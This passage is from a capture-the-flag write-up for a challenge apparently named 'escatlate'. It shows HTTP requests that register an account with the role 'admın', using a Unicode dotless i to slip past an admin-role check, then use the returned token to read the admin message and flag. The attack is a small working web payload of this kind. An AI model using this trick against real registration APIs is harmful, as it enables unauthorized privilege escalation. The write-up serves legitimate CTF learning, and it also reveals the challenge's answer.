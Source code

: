 We can now do the same bypass as before. Burp Suite can be a bit strange when copy-pasting the unicode character, sometimes converting it to a `1`, make sure to be careful!

```
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: */*
Content-Type: application/json
Content-Length: 89

{"username":"sealldev-administrator","password":"sealldev-administrator","role":"admın"}
```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 160

{"username":"sealldev-administrat","password":"sealldev-administrat","token":"2c04c37702bb1707363dfa5f49d868dd4139ed7404e4a25f4cc3478ae56eda2b","role":"admın"}
```

After registering, we use the token to retrieve the message again:
```
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
X-Token: 2c04c37702bb1707363dfa5f49d868dd4139ed7404e4a25f4cc3478ae56eda2b

```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 79

{"message":"Hi Admin! Your flag is 1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}"}
```

Flag: `1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}`